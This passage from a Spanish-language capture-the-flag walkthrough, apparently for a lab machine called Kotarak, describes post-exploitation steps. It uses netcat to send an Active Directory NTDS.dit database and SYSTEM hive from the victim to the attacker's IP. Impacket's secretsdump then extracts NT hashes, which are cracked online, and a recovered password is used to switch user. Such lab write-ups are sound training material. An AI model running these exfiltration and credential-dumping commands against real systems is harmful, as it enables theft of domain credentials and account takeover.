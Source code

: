 Aqui vemos que hay dos ficheros y con el commando 
```bash
 file 
```
 vemos que hay un fichero data y un MS Windows registry file NT/2000.
Nos traemos estos dos ficheros a nuestro equipo de atacante.

1. en la maquina de atacante

    ```bash
    nc -nlvp 443 > ntds.bin
    ```

1. en la maquina victima

    ```bash
    nc 10.10.14.6 443 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
    ```

1. en la maquina de atacante

    ```bash
    nc -nlvp 443 > ntds.dit
    ```

1. en la maquina victima

    ```bash
    nc 10.10.14.6 443 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
    ```

#### Recuperando hashes nt desde ficheros Active Directories {-}

```bash
mv ntds.dit ntds
mv ntds.bin SYSTEM
impacket-secretsdump -ntds ntds -system SYSTEM LOCAL
```

Aqui copiamos los diferentes hashes en un fichero llamado hash


![Kotrarak-hashes](/assets/images/Kotrarak-hashes.png) 
cat hash | awk '{print $4}' FS=":" y copiamos los hashes en la pagina [crack station](https://crackstation.net/)

```{r, echo = FALSE, fig.cap="hashes crackstation", out.width="90%"}
    knitr::include_graphics("images/Kotarak-crackstation.png")

![Kotarak-crackstatio](/assets/images/Kotarak-crackstation.png) 
```bash
su atanas
Password: f16tomcat!
whoami
> atanas
```
